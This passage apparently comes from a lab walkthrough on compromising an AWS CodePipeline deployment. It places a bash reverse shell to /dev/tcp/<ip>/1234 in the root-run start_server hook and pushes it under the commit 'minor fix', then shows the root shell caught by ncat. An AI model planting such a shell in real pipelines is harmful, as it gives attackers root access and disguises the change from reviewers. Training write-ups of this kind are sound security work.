 Now this goes to below process.

* CodePipeline will pull the changes
* CodeBuild will build the changes
* CodeDeploy will deploy the new code in the instance

After a minute or so we receive a callback. 

```bash
nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from ::1.
Ncat: Connection from ::1:35494.
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
```

We landed in a docker environment. Checking `buildspec.yml` we learn that the code changes are first tested in a docker container and if succeeded then it gets deployed on main instance. Observing `appspec.yml` we find hooks which runs after install.

```yml
hooks:
  AfterInstall:
    - location: scripts/install_dependencies
      timeout: 300
      runas: root
    - location: scripts/codestar_remote_access
      timeout: 300
      runas: root
    - location: scripts/start_server
      timeout: 300
      runas: root
```
We can place our reverse shell code in `scripts/start_server` to get shell access. Let's update it as below.

```bash
cd /home/ec2-user
/bin/bash -c "bash -i >& /dev/tcp/<ip>/1234 0>&1"
source environment/bin/activate

python3.8 manage.py collectstatic --noinput
/home/ec2-user/environment/bin/supervisord -c /home/ec2-user/supervisord.conf
```

Now we can push the changes

```bash
git add .
git commit -m 'minor fix'
git push
```

> Note: There is a reset script which removes all privileges. Make sure u set default version again and repeat the steps.
